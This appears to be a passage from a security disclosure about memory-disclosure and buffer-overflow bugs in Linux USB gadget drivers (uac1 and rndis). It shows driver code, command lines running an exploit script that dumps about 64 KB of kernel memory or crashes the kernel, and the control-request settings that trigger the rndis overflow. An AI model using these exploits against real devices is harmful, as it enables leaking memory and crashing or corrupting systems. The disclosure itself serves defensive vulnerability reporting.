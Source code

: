 ```
                            w_value, w_index, w_length);
                    req->zero = 0;
                    req->length = value;
                    value = usb_ep_queue(cdev->gadget->ep0, req, GFP_ATOMIC);

                    if (value < 0)
                            ERROR(cdev, "audio response on err %d\n", value);
            }

            /* device either stalls (value < 0) or reports success */
            return value;
    }
```

Execution of the sample readout exploit allows dumping of up to 65k of memory.

```
    $ ./gadget.py -v 0x1b67 -p 0x400c -f uac1 | wc -c
    65535
```

```
    $ ./gadget.py -v 0x1b67 -p 0x400c -f uac1 | strings

    nsole=tty1 root=PARTUUID=e02024cb-02 rootfstype=ext4 elevator=deadline fsck.repair=yes rootwait modules-load=dwc2
    tem.slice/system-getty.slice/getty@ttyGS0.service
    !rE*
    ?& .4!
    0usb_composite_setup_continue
    composite_setup
    usb_gadget_get_string
    usb_otg_descriptor_init
    usb_otg_descriptor_alloc
    usb_free_all_descriptors
    usb_assign_descriptors
    usb_copy_descriptors

    usb_gadget_config_buf
```

On the other hand, execution of the overwrite exploit allows one to write arbitrary data past expected buffer boundaries.
```
    $ ./gadget.py -v 0x1b67 -p 0x400c -f uac1 -d write

    Message from syslogd@zero at Dec  6 19:56:01 ...
     kernel:[  103.850206] Internal error: Oops: 5 [#1] ARM
```

Similarly in case of the rndis gadget the rndis_setup function can be exploited to write past buffer boundaries using control transfer request with direction out, type class, recipient interface and bRequest set to USB_CDC_SEND_ENCAPSULATED_COMMAND.
